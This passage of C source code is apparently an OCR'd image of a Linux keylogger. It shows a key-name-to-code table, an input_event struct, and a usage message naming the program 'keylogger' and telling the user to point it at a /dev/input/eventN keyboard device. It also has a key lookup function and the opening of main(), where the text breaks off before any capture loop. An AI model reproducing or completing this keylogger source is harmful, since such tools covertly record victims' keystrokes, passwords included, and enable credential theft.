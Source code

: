 ```c
{"KEY_DOWN",108, 0},
{"KEY_PAGEDOWN",109, 0},
{"KEY_INSERT",110, 0},
{"KEY_DELETE",111, 0},
{"KEY_MACRO",112, 0},
{"KEY_MUTE",113, 0},
{"KEY_VOLUMEDOWN",114, 0},
{"KEY_VOLUMEUP",115, 0},
{"KEY_POWER",116, 0},
{"KEY_KPEQUAL",117, 0},
{"KEY_KPPLUSMINUS",118, 0},
{"KEY_PAUSE",119, 0},
{"KEY_SCALE",120, 0},
{"KEY_KPCOMMA",121, 0},
{"KEY_HANGEUL",122, 0},
{"KEY_HANJA",123, 0},
{"KEY_YEN",124, 0},
{"KEY_LEFTMETA",125, 0},
{"KEY_RIGHTMETA",126, 0},
{"KEY_COMPOSE",127, 0},
};
static unsigned int num_of_keys = sizeof(km) / sizeof(km[0]);

struct input_event {
struct timeval timestamp;
unsigned short type;
unsigned short code;
unsigned int value;
};

void print_usage(void)
{
printf("keylogger N\n");
printf("ex: keylogger 4\n");
printf("\t if keyboard input device is /dev/input/event4\n");
}

int get_key_index(unsigned int keycode)
{
for (unsigned int i = 0 ; i < num_of_keys ; i++)
{
    if (keycode == km[i].keycode)
    {
	return i;
    }
}
return 0;
}

int main(int argc, char* argv[])
{
if (2 != argc)
{
    print_usage();
    return 0;
}

FILE *fd = NULL;

struct input_event ievt = {0};

char *input_device_fname = malloc(20);
memset(input_device_fname, 0, 20);
```